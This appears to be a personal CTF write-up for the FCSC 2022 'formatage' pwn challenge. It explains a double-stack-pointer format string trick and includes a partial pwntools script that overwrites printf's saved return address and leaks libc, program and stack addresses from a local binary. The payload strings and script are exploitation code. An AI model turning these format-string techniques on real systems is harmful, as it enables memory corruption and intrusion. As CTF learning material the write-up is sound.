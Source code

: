 I followed voydstack's [writeup](https://hackropole.fr/en/writeups/fcsc2022-pwn-formatage/202b3b8a-fa8d-4a37-b342-967db364d9ee/) but still couldn't solve on remote...

...yikes.

his/her write-up is pretty good and im not going to waste my time inventing the wheel again...

but i will just dump this for future use (and you 😉):

![ptable](https://github.com/user-attachments/assets/08319ac5-d387-4afb-a54f-007cb17aadea)
> general concept of abusing double stack pointers and creating ptable -> ROP on the stack...
 
- make the double pointer trick work by `"%c" * (pointer_offset - 2 ) + f"%{target - (pointer_offset - 2)}c" + "%hn"` 
> > not sure why, could it be related to printf cache??

> > also no need to do this everytime... do it once and use `$` to overwrite again 

> > more about [double pointers](https://j00ru.vexillium.org/slides/2015/insomnihack.pdf#page=98) and remote brute force examples [1](https://github.com/leesh3288/CTF/blob/master/2020/TWCTF_2020/blindshot/solver.py), [2](https://github.com/nobodyisnobody/write-ups/blob/main/idekCTF.2022/pwn/relativity/working.exploit.py)

and the full code (don't wanna call exploit... no flag 😞):

```python3
#!/usr/bin/env python3

from pwn import *

'''
p = gdb.debug("./formatage_patched", gdbscript="""
    b *0x555555555278
    c
""")
'''

p = process("./formatage_patched")

# p = remote("localhost", 4000)

p_offset = 15

# printf's saved_rip
target = int(0xe358)

ret = 216
payload = "%c" * (p_offset - 2)
payload += f"%{target - (p_offset - 2)}c" + "%hn"
# return to main by overwriting saved rip of printf...
payload += f"%{ret}c%47$hhn"

# with leaks :)
payload += "____"
payload += "%11$llx %13$llx %15$llx"
 
p.sendline(payload)

p.recvuntil(b"____")
leak = p.recvline().strip()
print(leak)

libc_leak = leak[:12]
main_leak = leak[13:][:12]
stack_leak = leak[26:][:12]

main = int(main_leak, 16)
```